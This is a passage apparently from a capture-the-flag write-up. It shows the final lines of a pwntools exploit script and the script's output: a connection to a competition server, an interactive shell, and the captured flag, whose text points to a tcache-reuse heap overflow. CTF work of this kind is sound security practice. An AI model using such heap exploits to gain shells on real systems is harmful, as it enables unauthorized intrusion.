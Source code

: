 ```python
r.sendline(b'3') # spawn a shell
r.interactive()
```

Script output:
``` bash
$ python3 solve2.py
[+] Opening connection to pwn.be.ax on port 5001: Done
[*] Switching to interactive mode
$ ls
flag.txt
run
$ cat flag.txt
corctf{tc4ch3_r3u5e_p1u5_0v3rfl0w_equ4l5_r007}
```

Flag: `corctf{tc4ch3_r3u5e_p1u5_0v3rfl0w_equ4l5_r007}`